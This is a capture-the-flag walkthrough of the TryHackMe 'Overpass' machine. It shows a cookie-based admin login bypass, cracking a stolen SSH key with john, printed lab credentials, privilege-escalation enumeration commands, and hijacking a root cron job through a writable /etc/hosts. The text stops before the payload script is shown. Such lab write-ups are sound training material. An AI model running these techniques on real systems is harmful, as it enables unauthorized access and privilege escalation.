# [Overpass](https://tryhackme.com/room/overpass) by [NinjaJc01](https://tryhackme.com/p/NinjaJc01)

```bash
IP = 10.10.56.108*
Difficulty: Easy
Machine OS: Linux
Learning Platform: tryhackme.com
Finished on: Arch Linux
```

**Note: IP address may vary.*

## **Reconnaissance**

### *Scoping and Preparation*

Connect to OpenVPN Server using:

* ``sudo openvpn {PATH_TO_OVPN_FILE}``

I used my tool [CTFRecon-Go](https://www.github.com/hambyhacks/CTFRecon-Go) to automate directory creation, port scanning, web directory brute-forcing and adding entry to `/etc/hosts` file.

* To use [CTFRecon-Go](https://www.github.com/hambyhacks/CTFRecon-Go):

    ```bash
    1. git clone https://www.github.com/hambyhacks/CTFRecon-Go
    2. cd CTFRecon-Go/
    3. go build . && cp CTFRecon-Go ../
    #to move ctfrecon.sh to your working directory.
    1. sudo ./CTFRecon-Go -i [IP] -d [DIRECTORY NAME] -p [PLATFORM] -w [WORDLIST] 
    #platform refers to hackthebox(htb) or tryhackme(thm). Wordlist is used for GoBuster directory brute-forcing.
    ```

Alternatively, you can also download the release binary for ``CTFRecon-Go``: <https://github.com/hambyhacks/CTFRecon-Go/releases/download/v.1.0.0/CTFRecon-Go>



## Enumeration

### *Preliminary Enumeration via nmap*

#### Table 1.1: nmap Results Summary

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
22/tcp | open | SSH | *OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)*
80/tcp | open | HTTP | *Golang net/http server (Go-IPFS json-rpc or InfluxDB API)*



Machine OS: Based on OpenSSH version, machine is [Ubuntu Bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.3).

Let's look at the `HTTP` server on port 80.

### Web Enumeration

On the homepage of `overpass.thm`, we can see that developers offer password encryption app.



Let's check the source code of the webpage to see if there is developer comments on the code.



There is a comment on the source code! Searching through Google, I found out that the developer pointed out that the encryption method they use is Caesar Cipher. We can verify the encryption later in the source code analysis of the password encryption app.

Checking on `GoBuster` scan results, we can see that there is 2 directories that is interesting. `/admin` and `/downloads/`.



Let's look first for the `/downloads` directory.



Let's download the source code and take notes of it.



Reading through the source code, it seems that it saves the encrypted password in a file named `.overpass`.



Interesting, the binary is using `ROT47` cipher which is based on Caesar Cipher! (which is referenced by the developer in the source code comment on homepage)

Let's take note of this and come back for it later.

We can also look on the `/aboutus` page to check for usernames.



We can now look for the `/admin` page.



Testing the login page for `SQL injection` does not work, so I looked for the source code of `/admin` page.



There are `.js` files in the `/admin` page. Let's check the contents of that files.

## Main.js



It seems like the web app is not finished yet.

## Login.js





The function `login` is calling to `/api/login` and the `StatusOrCookies` variable is expecting `Incorrect Credentials` to load the `/admin` page. We can try to submit empty cookie to see the response of the webpage.



## Exploitation

Now we have the basic understanding how the web app authentication works, we can now try to exploit the web app.

### *Steps to Reproduce*

1. Navigate to `/admin/` page.

2. Open up developer console (`F12` or `Right click and Click inspect`) in your preferred browser (Firefox is used in this case).

3. Navigate to `storage` tab and click on `cookies`.

4. Click on `+` icon and rename the cookie to `SessionToken` with your desired value. (even space will work)


5. Reload the page using `CTRL + R`. We should be redirected to the admin page as shown by the image below.



6. Copy the `id_rsa` content displayed on `/admin` page. The comment above tells us the user having this SSH private key belongs to `James` user.

7. We can use `SSH2john` to create a crackable format for `JohnTheRipper` tool to use and retrieve the password of the encrypted `id_rsa` file.

    * `ssh2john [ID_RSA file] > [OUTPUT FILE]`
    * `john [OUTPUT FILE]`

    
    

8. Login through `SSH` using the crack `id_rsa` file with the password we found using `john`.


#### Table 1.2: Credentials

Username | Password
:---: | :---:
james_id_rsa | james13
james | saydrawnlyingpicture

## Post-Exploitation

### *Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.

*Notes: For more information about the commands look [here](https://explainshell.com)*
*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

Looking in the `home` directory of `James`, we can see there are some interesting files named `.overpass`, `user.txt` and `todo.txt`.

#### Todo.txt



It seems `James` used the app to encrypt his password. Knowing that `.overpass` file is the encrypted password of `James` we can copy its contents to decrypt. We use `CyberChef` for this process.





We can now use `sudo`! But after doing that `James` is not allowed to use `sudo`.

Looking at the `/etc/crontab`, we found out that there is a cron job that is running as `root`! The cron job is running every minute and executing `buildscript.sh` using bash after sending `GET` request using `curl`.



Let's look for the `/etc/hosts` file since the cronjob is using `overpass.thm` as its Host.



As you can see on the image above, the `/etc/hosts` file has faulty permissions.

Typically the `/etc/hosts` file has permissions of `-rw-r--r--` meaning the `root` user has only the permission to write to the file.

We can use this to our advantage by editing the IP of the `overpass.thm` entry on `/etc/hosts` file.

### *Privilege Escalation*

Knowing that the cron job is executing as `root` user and we can edit the content of `/etc/hosts` file. We can now try to escalate our privileges.

1. Edit the `/etc/hosts` file by replacing the IP beside the entry `overpass.thm` to your Attacking Machine's IP.


2. In your Attacking machine, create directories that looks like in the crontab entry.

    * `mkdir downloads && cd downloads/ && mkdir src`

3. Create a file named `buildscript.sh` in `/downloads/src/` directory you just created.

